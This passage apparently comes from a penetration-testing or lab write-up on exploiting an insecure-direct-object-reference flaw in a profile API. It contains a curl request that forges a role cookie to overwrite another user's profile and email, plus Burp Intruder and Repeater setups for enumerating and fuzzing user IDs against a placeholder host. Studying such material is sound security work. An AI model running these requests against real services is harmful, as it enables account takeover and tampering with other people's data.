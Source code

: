 ```bash
        echo $response
    fi
done
```

#### Method 3: Cross-User Exploitation
```bash
# Once UUIDs are discovered, attempt cross-user modification
target_uid=5
target_uuid="discovered-uuid-for-user-5"

curl -X PUT \
     -H "Content-Type: application/json" \
     -H "Cookie: role=employee" \
     -d "{
         \"uid\": $target_uid,
         \"uuid\": \"$target_uuid\", 
         \"role\": \"employee\",
         \"full_name\": \"Pwned User\",
         \"email\": \"pwned@attacker.com\"
     }" \
     "http://target.com/profile/api.php/profile/$target_uid"
```

### Burp Suite API Testing

#### Intruder Setup for User Enumeration
**Request Template:**
```http
GET /profile/api.php/profile/§1§ HTTP/1.1
Host: target.com
Cookie: role=employee
```

**Payload Configuration:**
- Payload type: Numbers
- Range: 1-100
- Filter responses by status code and content length

#### Repeater for Parameter Testing
**JSON Parameter Fuzzing:**
```json
{
    "uid": §1§,
    "uuid": "§uuid§", 
    "role": "§role§",
    "full_name": "Test",
    "email": "test@test.com"
}
```

---
